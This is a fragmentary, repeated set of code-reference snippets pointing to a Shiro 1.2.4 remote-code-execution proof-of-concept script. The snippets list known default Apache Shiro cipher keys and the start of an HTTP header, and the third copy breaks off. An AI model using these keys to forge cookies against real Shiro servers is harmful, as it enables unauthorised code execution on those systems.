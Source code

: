 
## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent': 'Mozilla/5
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent': 'Mozilla/5.
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
